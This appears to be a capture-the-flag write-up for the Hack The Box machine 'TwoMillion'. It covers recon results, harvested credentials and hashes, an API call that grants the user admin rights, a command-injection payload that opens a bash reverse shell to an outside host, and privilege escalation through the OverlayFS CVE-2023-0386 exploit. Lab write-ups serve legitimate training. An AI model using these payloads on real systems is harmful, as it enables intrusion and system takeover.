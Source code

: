 # TwoMillion

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| twomillion | 10.10.11.221 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.221 | 22   | tcp   | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.1 |
| 10.10.11.221 | 80   | tcp   | nginx   |                         |


## HEADERS

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Mon, 10 Jul 2023 19:06:35 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: http://2million.htb/
```

## DIRECTORIES

- /login
- /register
- /logout               [--> /]
- /404
- /home                 [--> /]
- /api
- /invite
- /Database.php

## USERS

- admin SuperDuperPass123 (mysql)
- TRX `$2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq`
- TheCyberGeek `$2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK`

## NOTES

- `curl -X POST http://2million.htb/api/v1/invite/generate | jq .` to generate invite code, then decrypt b64
- `curl -s -q -H 'Cookie: PHPSESSID=89rv4g6hqp2arukuld37blggc5' 2million.htb/api/v1` returns route list
- `PUT /api/v1/admin/settings/update` with a json content-type, allows us to make ourselves admin to access other api routes 
```json
{"email": "wither@wither.wither", "is_admin": 1}
```
- `POST /api/v1/admin/vpn/generate` has a command injection vulnerability in 
```json
Content-Type: application/json
Content-Length: 88
{"username":"wither@wither.wither$(bash -c 'bash -i >& /dev/tcp/10.10.14.20/2222 0>&1')"}
```
- mysql pass in `.env` 
- ssh as admin
- `/var/mail/admin` says about OverlayFS CVE
- https://github.com/sxlmnwb/CVE-2023-0386
- `tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386` to zip
- `tar -xjvf CVE-2023-0386.tar.bz2` to unzip
